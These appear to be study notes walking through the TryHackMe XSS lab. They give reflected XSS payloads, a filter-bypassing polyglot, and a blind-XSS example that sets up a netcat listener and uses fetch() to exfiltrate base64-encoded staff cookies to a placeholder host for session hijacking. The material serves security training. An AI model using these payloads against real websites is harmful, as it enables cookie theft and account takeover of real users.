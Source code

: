 ```yaml
---
URL: https://tryhackme.com/room/xss
---
```

## Perfecting your payload
### Level One:

You're presented with a form asking you to enter your name, and once you've entered your name, it will be presented on a line below, for example:

![[XSS L1 Web.png]]

If you view the Page Source, You'll see your name reflected in the code:

![[XSS L1 Source.png]]

Instead of entering your name, we're instead going to try entering the following JavaScript Payload: `<script>alert('THM');</script>`.

Now when you click the enter button, you'll get an alert popup with the string THM and the page source will look like the following:

![[XSS L1 THM.png]]

### Level Two:

Like the previous level, you're being asked again to enter your name. This time when clicking enter, your name is being reflected in an input tag instead:

![[XSS L2 Web.png]]

Viewing the page source, you can see your name reflected inside the value attribute of the input tag:

![[XSS L2 Source.png]]

It wouldn't work if you were to try the previous JavaScript payload because you can't run it from inside the input tag. Instead, we need to *escape the input tag* first so the payload can run properly. You can do this with the following payload: 
`"><script>alert('THM');</script>`

The important part of the payload is the `">` which closes the value parameter and then closes the input tag.

This now closes the input tag properly and allows the JavaScript payload to run:

![[XSS L2 THM.png]]

### Level Six:

Similar to level two, where we had to escape from the value attribute of an input tag, we can try `"><script>alert('THM');</script>` , but that doesn't seem to work. Let's inspect the page source to see why that doesn't work.

![[XSS L6 Source.png]]

You can see that the `<` and `>` characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the `onload` event. The `onload` event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.

Let's change our payload to reflect this `/images/cat.jpg" onload="alert('THM');` and then viewing the page source, and you'll see how this will work.

![[XSS L6 THM.png]]

### Polyglots

An XSS polyglot is a string of text which can *escape attributes, tags and bypass filters all in one*. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

## Practical Example (Blind XSS)

Create a support ticket by clicking the green Create Ticket button, enter the subject and content of just the word test and then click the blue Create Ticket button. You'll now notice your new ticket in the list with an id number which you can click to take you to your newly created ticket. 

Upon viewing the page source, we can see the text gets placed inside a textarea tag.

![[Blind XSS Prac.png]]

If we create another new ticket with the following payload: 
`</textarea><script>alert('THM');</script>` 

Now when we view the ticket, we get an alert box with the string THM. Expanding on this vulnerability we are going to *extract from another user their cookies*, which we could use to elevate our privileges by *hijacking their login session*. 

To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information.

Let’s set up a listening server using [[Netcat]]. If we want to listen on port `9001`, we issue the command `nc -l -p 9001`. 

The `-l` option indicates that we want to use Netcat in listen mode, while the 
`-p` option is used to specify the port number. 
To avoid the resolution of hostnames via DNS, we can add `-n`; 
moreover, to discover any errors, running Netcat in verbose mode by adding the `-v` option is recommended. 

The final command becomes `nc -n -l -v -p 9001`, equivalent to `nc -nlvp 9001`.

Now that we’ve set up the method of receiving the exfiltrated information, let’s build the payload.

```javascript
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```

Let’s break down the payload:

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The` fetch()` command makes an HTTP request.
- `URL_OR_IP` is the IP address the data will be exfiltrated to.
- `PORT_NUMBER` is the port number we are running the netcat server on
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>` closes the JavaScript code block.

Now after we submit a support ticket with the above payload, when a staff member opens it, we should get their cookie on our Netcat server.

![[XSS Netcat catch.png]]

Then we can use a base64 decoder website to decode it.